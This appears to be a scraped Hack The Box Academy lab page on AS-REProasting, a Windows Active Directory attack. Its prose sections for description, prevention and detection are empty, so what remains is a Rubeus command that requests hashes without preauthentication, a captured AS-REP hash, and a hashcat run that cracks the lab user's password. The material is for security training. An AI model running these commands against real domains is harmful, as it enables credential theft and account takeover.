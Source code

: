 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/176/section/1779
// Platform Version: V1
// Module ID: 176
// Module Name: Windows Attacks & Defense
// Module Difficulty: Medium
// Section ID: 1779
// Section Title: AS-REProasting
// Page Title: Windows Attacks & Defense
// Page Number: 04
-->

# AS-REProasting

**Module Name:** Windows Attacks & Defense **Page Number:** 04

#### WINDOWS ATTACKS & DEFENSE

# AS-REProasting

## Description

## Attack

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe asreproast /outfile:asrep.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: AS-REP roasting

[*] Target Domain          : eagle.local

[*] Searching path 'LDAP://DC2.eagle.local/DC=eagle,DC=local' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : anni
[*] DistinguishedName      : CN=anni,OU=EagleUsers,DC=eagle,DC=local
[*] Using domain controller: DC2.eagle.local (172.16.18.4)
[*] Building AS-REQ (w/o preauth) for: 'eagle.local\anni'
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\bob\Downloads\asrep.txt

[*] Roasted hashes written to : C:\Users\bob\Downloads\asrep.txt
```

![https://academy.hackthebox.com/storage/modules/176/A2/AsrepReq.png](https://academy.hackthebox.com/storage/modules/176/A2/AsrepReq.png)

```shell-session
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550
```

```shell-session
[!bash!]$ sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force

hashcat (v6.2.5) starting

<SNIP>

Dictionary cache hit:
* Filename..: passwords.txt
* Passwords.: 10002
* Bytes.....: 76525
* Keyspace..: 10002
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$anni@eagle.local:1b912b858c4551c0013d...3d2550
Time.Started.....: Thu Dec 8 06:08:47 2022, (0 secs)
Time.Estimated...: Thu Dec 8 06:08:47 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   130.2 kH/s (0.65ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10002/10002 (100.00%)
Rejected.........: 0/10002 (0.00%)
Restore.Point....: 9216/10002 (92.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 20041985 -> brady
Hardware.Mon.#1..: Util: 26%

Started: Thu Dec 8 06:08:11 2022
Stopped: Thu Dec 8 06:08:49 2022
```

![https://academy.hackthebox.com/storage/modules/176/A2/AsrepReqCrack.png](https://academy.hackthebox.com/storage/modules/176/A2/AsrepReqCrack.png)

```shell-session
[!bash!]$ sudo cat asrepcrack.txt

$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550:Slavi123
```

![https://academy.hackthebox.com/storage/modules/176/A2/AsrepReqCracked.png](https://academy.hackthebox.com/storage/modules/176/A2/AsrepReqCracked.png)

## Prevention

## Detection

![https://academy.hackthebox.com/storage/modules/176/A2/AsrepDetect.png](https://academy.hackthebox.com/storage/modules/176/A2/AsrepDetect.png)

## Honeypot

![https://academy.hackthebox.com/storage/modules/176/A2/honeypot2.png](https://academy.hackthebox.com/storage/modules/176/A2/honeypot2.png)

# 

# 

#### Questions

####